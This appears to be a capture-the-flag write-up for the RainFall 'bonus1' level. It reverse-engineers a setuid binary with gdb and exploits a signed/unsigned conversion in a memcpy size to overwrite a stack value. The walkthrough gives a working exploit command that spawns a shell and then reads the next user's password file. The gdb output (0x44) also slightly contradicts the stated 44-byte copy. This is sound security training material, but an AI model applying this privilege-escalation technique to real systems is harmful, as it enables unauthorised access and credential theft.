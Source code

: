 # Bonus1

## Walkthrough

We list the files in the current home directory.

```bash
bonus1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
bonus1@RainFall:~$ file bonus1 
bonus1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x5af8fd13428afc6d05de1abfa9d7e7621df174c7, not stripped
```

The file is owned by **bonus2** and has the setuid bit.

We list the functions in the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482d4  _init
0x08048320  memcpy
0x08048320  memcpy@plt
0x08048330  __gmon_start__
0x08048330  __gmon_start__@plt
0x08048340  __libc_start_main
0x08048340  __libc_start_main@plt
0x08048350  execl
0x08048350  execl@plt
0x08048360  atoi
0x08048360  atoi@plt
0x08048370  _start
0x080483a0  __do_global_dtors_aux
0x08048400  frame_dummy
0x08048424  main
0x080484b0  __libc_csu_init
0x08048520  __libc_csu_fini
0x08048522  __i686.get_pc_thunk.bx
0x08048530  __do_global_ctors_aux
0x0804855c  _fini
```

There is only 1 user defined functions: `main()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:    add    eax,0x4
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    eax,0x1
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:    add    eax,0x8
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:    mov    edx,eax
   0x08048464 <+64>:    lea    eax,[esp+0x14]
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    eax,0x0
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

The `main()` function:
- calls `atoi()` with `argv[1]` as argument
- compares the result and exits if it is greater than 9
- calls `memcpy()` to copy `argv[2]` to a pointer on the stack for a size of `result of atoi() * 4`
- compares the value located where the result of `atoi()` was stored and exits if it is not equal to `0x574f4c46`
- calls `execl("/bin/sh")`

The stack frame of the `main()` function can be represented as follows:
![Diagram of the main() stack frame](./resources/bonus1_diagram1.png)

To overwrite the value of the result of `atoi()`, we have to pass a string of 40 bytes followed by the value `0x574f4c46`.  
But we are facing a problem: we can only pass a value of 9 or less as `argv[1]`. As seen above, this number is then gonna be multiplied by 4 and be used as the size for the call to `memcpy()`. It means we can only write up to 36 characters, but we must write 44.

If we pay attention to the functions signatures of `atoi()` and `memcpy()`, we notice that one accepts an **int**, and the other an **unsigned int**.  
We know that if a negative **int** is converted to an **unsigned int** (on 32 bits), it will be represented as `2 ** 32 - negative_value`.

We set a breakpoint before `memcpy()`, run the executable with different negative numbers, and check the third value from the top of the stack to compare it with the one we expect: 44.

```
(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
(gdb) r -2147483631 AAAA
Starting program: /home/user/bonus1/bonus1 -2147483631 AAAA

Breakpoint 1, 0x08048473 in main ()
(gdb) i r esp
esp            0xbffff5b0       0xbffff5b0
(gdb) x/4wx 0xbffff5b0
0xbffff5b0:     0xbffff5c4      0xbffff800      0x00000044      0x080482fd
```

After some attempts, we find that we have to pass the string `-2147483631` in `argv[1]` to copy 44 bytes during the call to `memcpy()`.

We then pass a string of 40 placeholder characters followed by the value `0x574f4c46` as `argv[2]`.

```bash
bonus1@RainFall:~$ ./bonus1 $(python -c "print('-2147483631')") $(python -c "print('A' * 40 + '\x46\x4c\x4f\x57')")
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## Resources

- [What happens if I assign a negative value to an unsigned variable?](https://stackoverflow.com/questions/2711522/what-happens-if-i-assign-a-negative-value-to-an-unsigned-variable)
